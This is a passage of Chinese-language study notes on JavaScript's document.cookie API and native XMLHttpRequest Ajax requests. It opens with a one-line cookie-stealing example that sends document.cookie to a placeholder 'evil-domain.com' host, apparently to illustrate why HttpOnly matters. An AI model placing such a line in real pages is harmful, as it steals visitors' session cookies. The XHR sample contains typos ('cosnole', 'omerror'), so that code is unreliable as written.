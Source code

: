 ~~~js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
~~~

document.cookie 获取当前的cookie（HttpOnly属性不设置时可以获取）获取的是cookie字符串，需要转化

~~~js
var cookies = document.cookie.split(';');
~~~

这个属性可写（可以通过脚本对当前网站添加Cookie）==写入 Cookie 的时候，必须对分号、逗号和空格进行转义（它们都不允许作为 Cookie 的值）==，这可以用`encodeURIComponent`方法达到。`document.cookie`一次只能写入一个 Cookie，而且写入并不是覆盖，而是添加。如果添加多个属性，可以先转化成数组，改变数组，最后保存cookie的值（例如界面评论栏的宽度）；写入cookie 时可以同时写入相关属性（过期时间）

~~~js
document.cookie = 'fontSize=14; '
  + 'expires=' + someDate.toGMTString() + '; '
  + 'path=/subdirectory; '
  + 'domain=*.example.com';
~~~

Cookie 的属性一旦设置完成，就没有办法读取这些属性的值。删除一个现存 Cookie 的唯一方法，是设置它的`expires`属性为一个过去的日期。

~~~js
document.cookie = 'fontSize=;expires=Thu, 01-Jan-1970 00:00:01 GMT';
~~~

### 10.6 XMLHttpequest

#### 概述

Ajax: 异步JS和XML；脚本发起通信，就是ajax。

步骤：创建XMLHttpRequest实例对象，发送请求，服务器响应，获取数据更新界面。

现在ajax返回的数据不是XML格式，通常是JSON格式，但是ajax还保留。现在不仅仅是http协议，file ftp 协议也可以，发送的数据格式不限制。ajax只能向同源网址（协议域名端口相同）发送请求，如果跨域会报错。

下面是原生ajax发送get请求：

~~~js
var xhr = new XMLHttpRequest();

xhr.onreadystatechange = function() {
  if (xhr.readyState === 4) {
    if (xhr.status === 200) {
      console.log(xhr.responseText);
    } else {
      console.log(xhr.status);
      cosnole.log(xhr.statusText);
    }
  }
};

xhr.omerror = function() {
  console.error(xhr.statusText);
};

xhr.open('GET', 'http://example.com/page.php', true);
// 第三个参数表示异步发送请求
xhr.send(null);
// get 请求不带参数
~~~
